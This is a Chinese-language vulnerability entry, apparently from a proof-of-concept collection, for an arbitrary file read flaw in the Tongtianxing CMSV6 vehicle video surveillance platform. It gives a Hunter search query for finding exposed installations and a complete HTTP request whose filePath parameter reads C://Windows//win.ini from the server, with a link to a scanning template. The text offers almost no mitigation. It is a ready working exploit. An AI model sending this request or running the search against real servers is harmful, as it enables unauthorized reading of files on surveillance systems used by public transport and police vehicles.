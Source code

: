 # 通天星CMSV6车载视频监控平台 StandardReportMediaAction_getImage存在任意文件读取漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台 StandardReportMediaAction_getImage存在信息泄露漏洞。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/Qz7AF5mVWHbgfj7L/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-213540.png)

# 四、漏洞复现
```plain
GET /808gps/StandardReportMediaAction_getImage.action?filePath=C://Windows//win.ini&fileOffset=1&fileSize=100 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=82D471F9BEF54995F73170C5647FAF54
Upgrade-Insecure-Requests: 1
```

![1708916552974-e0e3aa2a-cfee-488d-9cff-878b9b5c550f.png](./img/Qz7AF5mVWHbgfj7L/1708916552974-e0e3aa2a-cfee-488d-9cff-878b9b5c550f-986675.png)[通天星-CMSV6-standardreportmediaaction-getimage-文件读取.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1735362336433-896c3fbf-7ba6-4420-8882-397fee7aa98b.yaml)



> 更新: 2024-12-28 13:05:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bt8a7sowdhsh0dc6>